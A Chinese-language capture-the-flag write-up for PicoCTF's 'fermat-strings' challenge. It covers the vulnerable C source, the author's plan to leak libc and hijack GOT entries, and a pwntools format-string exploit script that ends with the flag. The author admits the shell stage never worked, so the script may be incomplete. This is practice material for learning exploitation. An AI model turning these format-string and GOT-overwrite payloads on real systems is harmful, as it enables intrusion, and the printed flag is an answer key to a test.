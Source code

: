 ```yaml
---
title: PicoCTF - fermat-strings
tags: [PicoCTF, CTF, PWN]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - fermat-strings
## Background
[C 庫函數 - strcspn()](https://www.runoob.com/cprogramming/c-function-strcspn.html)
> 該函數返回 str1 開頭連續都不含字符串 str2 中字符的字符數。

[atoi() - C語言庫函數](http://tw.gitbook.net/c_standard_library/c_function_atoi.html)
> 這個函數返回一個int值轉換的整數。如果冇有有效的轉換可以執行，它返回零。

[C 库函数 - snprintf()](https://www.runoob.com/cprogramming/c-function-snprintf.html)
> snprintf() 函數的返回值是輸出到 str 緩沖區中的字符數，不包括字符串結尾的空字符 \0。如果 snprintf() 輸出的字符數超過了 size 參數指定的緩沖區大小，則輸出的結果會被截斷，只有 size - 1 個字符被寫入緩沖區，最後一個字符為字符串結尾的空字符 \0。
>
>需要注意的是，snprintf() 函數返回的字符數並不包括字符串結尾的空字符 \0，因此如果需要將輸出結果作為一個字符串使用，則需要在緩沖區的末尾添加一個空字符 \0。


[Format Specifiers in C](https://www.geeksforgeeks.org/format-specifiers-in-c/)
## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>

#define SIZE 0x100

int main(void)
{
  char A[SIZE];
  char B[SIZE];

  int a = 0;
  int b = 0;

  puts("Welcome to Fermat\\'s Last Theorem as a service");

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("A: ");
  read(0, A, SIZE);
  printf("B: ");
  read(0, B, SIZE);

  A[strcspn(A, "\n")] = 0;
  B[strcspn(B, "\n")] = 0;

  a = atoi(A);
  b = atoi(B);

  if(a == 0 || b == 0) {
    puts("Error: could not parse numbers!");
    return 1;
  }

  char buffer[SIZE];
  snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
  printf(buffer);

  int answer = -1;
  for(int i = 0; i < 100; i++) {
    if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
      answer = i;
    }
  }

  if(answer != -1) printf("Found the answer: %d\n", answer);
}
```
:::
## Recon
這一題太難了，可以參考的資料太少了，大部分都有一些缺失，而且重點是server那邊的版本和local端不一樣就會造成got hijack失敗，所以最後沒有做出來，但是流程還是可以記錄一下
1. 先leak stack的資訊，例如`__libc_start_main`的address，然後到[^libc_database_search]查詢，光這一點耗費蠻多心力，雖然說只要查看stack上相對的位置，就可以leak出對應的address，但有可能是因為我local端libc version是2.35，所以找不到對應位置上libc address在database上的資料，但在server端卻找得到，這可能是不同版本的鍋，所以之後要找這種libc version的問題，最好是在2.31的地方
2. 得到libc的version後，就可以算offset，得出libc base address，然後就可以得出system在libc的確切位址，又由於這隻程式只會執行一次就結束，所以我們要讓他有loop的效果，作法就是got hijack，改掉pow的got位置為main function的address
註：為甚麼是改pow而不是atoi, snprintf之類的function的got?因為pow是比較後面被呼叫到的function，如果修改那些太早被呼叫到的function就馬上從main開始執行，這樣就沒辦法開shell了
3. 接著我們可以再從第二次的input中開shell，這就是最後做不出來的地方，除了之前沒有寫過相關的題目不知道怎麼開以外，其他WP[^fermat-strings][^picoMini-by-redpwn][^picoMini-by-redpwn-2021-Darin's-Challenges]也都會有其他的問題
## Exploit
```python!
from pwn import *
exe = ELF("chall")
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

context.binary = exe
context.terminal = "kitty"

offset___libc_start_main_ret = 0x026fc0
offset_system = 0x0000000000055410
# offset___libc_start_main_ret_local = 0xac0b3c2270
# offset_system_local = 0x050d60

r = remote("mars.picoctf.net", 31929)
# r = process('./chall')

'''#############
leak libc address
#############'''
payload1 = b'1 %2082c%12$hn  ' + p64(exe.got['pow'])
payload2 = b'2 %109$p'
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)
print(r.recvuntil(b" 2 0x"))
return_value = int(r.recv(12).strip(), 16)
libc_addr = return_value - 243 - offset___libc_start_main_ret
success(f"Return Value = {hex(return_value)}")
success(f"libc address = {hex(libc_addr)}")
success(f"libc system address = {hex(libc_addr + offset_system)}")
# success(f"libc system address = {hex(libc_addr + offset_system_local)}")
# success(f"libc address = {hex(libc_addr - offset___libc_start_main_ret_local)}")


'''#############
Get Shell
#############'''
# raw_input()
third = (libc.sym['system']>>16)&0xff
bottom = libc.sym['system'] & 0xffff
first = third - 21
second = bottom - third

payload1 = f'1 %{first}c%43$hhn%{second}c%44$hn'
payload2 = b'2'.ljust(8, b' ') + p64(exe.got['atoi']+2) + p64(exe.got['atoi'])
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)

r.interactive()
```

Flag: `picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}`
## Reference
[^fermat-strings]:[fermat-strings](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF_redpwn/fermat-strings.md)
[^picoMini-by-redpwn]:[picoMini by redpwn](https://heinen.dev/picoctf-2021-redpwn/#fermat-strings)
[^picoMini-by-redpwn-2021-Darin's-Challenges]:[picoMini by redpwn 2021 - Darin's Challenges](https://activities.tjhsst.edu/csc/writeups/picomini-redpwn-darin#fermat-strings-pwn)
[^libc_database_search]:[libc database search](https://libc.blukat.me/?q=__libc_start_main_ret%3A0x7fa8cf54d0b3&l=libc6_2.31-0ubuntu9.1_amd64)